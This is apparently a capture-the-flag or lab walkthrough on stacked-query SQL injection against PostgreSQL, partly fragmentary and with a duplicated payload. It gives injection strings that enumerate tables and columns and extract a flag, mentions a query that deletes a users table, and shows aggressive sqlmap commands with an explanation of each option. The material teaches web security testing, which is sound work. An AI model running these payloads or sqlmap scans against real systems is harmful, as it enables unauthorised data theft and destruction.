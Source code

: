 ; separates two queries.

The first query runs and returns something.

Then the second query executes and deletes the users table.

### Optional
if allowed

```shell
sqlmap -u "http://example.com/page.php?id=1" --level=5 --risk=3 --batch --dbs
```

It can test all types: error-based, boolean-based, time-based — and auto-detect the backend.

show all tables

```sql
target';select * from pg_tables-- -
```

PostgreSQL stores all table metadata in the pg_tables system view.

```sql
target; SELECT tablename FROM pg_tables WHERE schemaname='public'; --
```

Once you've identified a suspicious table (e.g., table), inspect its columns with:

```sql
target; SELECT column_name FROM information_schema.columns WHERE table_name='table'; --
```

Now that you know the table and the column, extract the data with a final stacked query:

```sql
target; SELECT flag FROM flag_table; --
```

```sql
target; SELECT flag FROM flag_table; --
```

### SQLMAP

```shell
sqlmap -u "http://sql-injection/exploit/stacked" --technique=S --dbms=PostgreSQL --risk=3 --level=5 --batch
```

#### Breakdown of the Options

Option	Purpose
--
- -u	Target URL
- ?id=rug	The vulnerable parameter id with test input rug
- --technique=S	Only use Stacked queries (S)
- --dbms=PostgreSQL	Assume backend is PostgreSQL (helps optimize payloads)
- --risk=3 --level=5	Enables more aggressive payloads and parameter coverage
- --batch	Auto-confirms prompts for non-interactive use
- --time-sec=5 → helps detect time-based blind SQLi (e.g., via pg_sleep)
- --flush-session → forces sqlmap to retry scanning from scratch
- --data="username=rug" Sends this as the POST body
- -r: tells sqlmap to read a raw HTTP request file
